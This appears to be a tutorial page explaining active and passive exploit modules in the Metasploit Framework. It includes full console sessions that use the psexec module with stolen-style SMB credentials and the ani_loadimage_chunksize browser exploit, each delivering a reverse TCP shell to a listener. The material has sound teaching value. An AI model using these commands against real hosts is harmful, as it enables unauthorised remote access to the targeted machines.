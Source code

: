 ```yaml
---
draft: false
title: Exploit Types in Metasploit Framework
date: 2017-05-13T12:34:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Within the Metasploit Framework, all exploit modules are grouped as active and passive.
url: /msf-exploit-types/
featured_image: /images/metasploit.jpg
weight: 60
translationKey:: msf-exploit-types
categories:
  - Metasploit Framework
tags:
  - cybersecurity
  - metasploit framework
linkTitle: Exploit Types
keywords:
  - exploit
---
```


Within the Metasploit Framework, all exploit modules are grouped as **active** and **passive**.

## Active Exploit

Active exploits will run on a specific target and continue to run until the process is completed. They stop running when they encounter any error.

For example, the Brute-force module runs until a shell command line is opened on the target computer and stops when it is finished. Since their processes can take a long time to complete, they can be sent to the background using the `-j` parameter.

In the example below, you can see that the ms08_067_netapi exploit is started and sent to the background.

```bash
msf exploit(ms08_067_netapi) > exploit -j
> Exploit running as background job.
msf exploit(ms08_067_netapi) >
```

## Active Exploit Example

In this example, a target computer (192.168.1.100) whose information was obtained through prior discovery is shown setting the necessary variables and starting to work. The psexec exploit and the reverse_tcp payload module are used to open a shell on the target computer.

```bash
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.100
RHOST => 192.168.1.100
msf exploit(psexec) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(psexec) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(psexec) > set LPORT 4444
LPORT => 4444
msf exploit(psexec) > set SMBUSER victim
SMBUSER => victim
msf exploit(psexec) > set SMBPASS s3cr3t
SMBPASS => s3cr3t
msf exploit(psexec) > exploit

> Connecting to the server...
> Started reverse handler
> Authenticating as user 'victim'...
> Uploading payload...
> Created \hikmEeEM.exe...
> Binding to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Bound to 367abb81-9844-35f1-ad32-98f038001003:2.0@ncacn_np:192.168.1.100[\svcctl] ...
> Obtaining a service manager handle...
> Creating a new service (ciWyCVEp - "MXAVZsCqfRtZwScLdexnD")...
> Closing service handle...
> Opening service...
> Starting the service...
>Removing the service...
> Closing service handle...
> Deleting \hikmEeEM.exe...
> Sending stage (240 bytes)
> Command shell session 1 opened (192.168.1.5:4444 -> 192.168.1.100:1073)

Microsoft Windows XP **[**Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```

## Passive Exploit

Passive Exploits run passively on the local computer (our own computer) and remain listening. They wait for the target computer to somehow connect to the local computer.

Passive exploits almost always focus on clients such as Web browsers, FTP, etc. They can also be used in connections from files sent via e-mail. When a passive exploit runs, it starts waiting. When a user clicks on a link on the site or performs an action, that's when the passive exploit in the listening receives the signal and opens a **shell** on the target.

You can see the list of exploits running in the background and listening by giving the `-l` parameter to the `sessions` command. You can use the `-i` parameter to go to the desired `ID` numbered process from the list.

```bash
msf exploit(ani_loadimage_chunksize) > sessions -l

Active sessions
**================**

Id Description Tunnel
-- ----------- ------
1 Meterpreter 192.168.1.5:52647 -> 192.168.1.100:4444

msf exploit(ani_loadimage_chunksize) > sessions -i 1
> Starting interaction with 1...

meterpreter >
```

## Passive Exploit Example

In the example below, a user is expected to enter a Web page using the loadimage_chunksize exploit and reverse_tcp payload. The `LHOST` variable indicates the IP address of the computer that will listen locally, and the `LPORT` indicates the port number that will listen on the local computer.

```bash
msf > use exploit/windows/browser/ani_loadimage_chunksize
msf exploit(ani_loadimage_chunksize) > set URIPATH /
URIPATH => /
msf exploit(ani_loadimage_chunksize) > set PAYLOAD windows/shell/reverse_tcp
PAYLOAD => windows/shell/reverse_tcp
msf exploit(ani_loadimage_chunksize) > set LHOST 192.168.1.5
LHOST => 192.168.1.5
msf exploit(ani_loadimage_chunksize) > set LPORT 4444
LPORT => 4444
msf exploit(ani_loadimage_chunksize) > exploit
> Exploit running as background job.

> Started reverse handler
> Using URL: <a href="http://0.0.0.0:8080/">http://0.0.0.0:8080/</a>
> Local IP: <a href="http://192.168.1.5:8080/">http://192.168.1.5:8080/</a>
> Server started.
msf exploit(ani_loadimage_chunksize) >
> Attempting to exploit ani_loadimage_chunksize
> Sending HTML page to 192.168.1.100:1077...
> Attempting to exploit ani_loadimage_chunksize
> Sending Windows ANI LoadAniIcon**()** Chunk Size Stack Overflow (HTTP) to 192.168.1.100:1077...
> Sending stage (240 bytes)
> Command shell session 2 opened (192.168.1.5:4444 -> 192.168.1.100:1078)

msf exploit(ani_loadimage_chunksize) > sessions -i 2
> Starting interaction with 2...

Microsoft Windows XP **[**Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\victim\Desktop>
```

You can send us other topics you want to be explained.

## Video Anlatım

{{< youtube liQEKnvzhQE >}}
